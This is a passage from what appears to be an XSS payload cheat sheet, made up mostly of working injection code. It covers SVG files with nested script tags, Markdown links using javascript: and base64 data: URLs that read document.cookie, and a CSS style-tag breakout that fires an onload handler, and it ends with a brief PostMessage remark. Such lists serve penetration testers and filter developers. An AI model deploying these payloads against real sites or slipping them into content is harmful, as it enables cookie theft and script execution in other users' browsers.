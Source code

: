 ```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg#lightning"/>
</svg>
```

However, including svg tags in SVG documents works and allows XSS execution from sub-SVGs. Codename: french flag. Author: noraj.

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <svg x="10">
    <rect x="10" y="10" height="100" width="100" style="fill: #002654"/>
    <script type="text/javascript">alert('sub-svg 1');</script>
  </svg>
  <svg x="200">
    <rect x="10" y="10" height="100" width="100" style="fill: #ED2939"/>
    <script type="text/javascript">alert('sub-svg 2');</script>
  </svg>
</svg>
```

### XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

> If the target origin is asterisk * the message can be sent to any domain has reference to the child page.
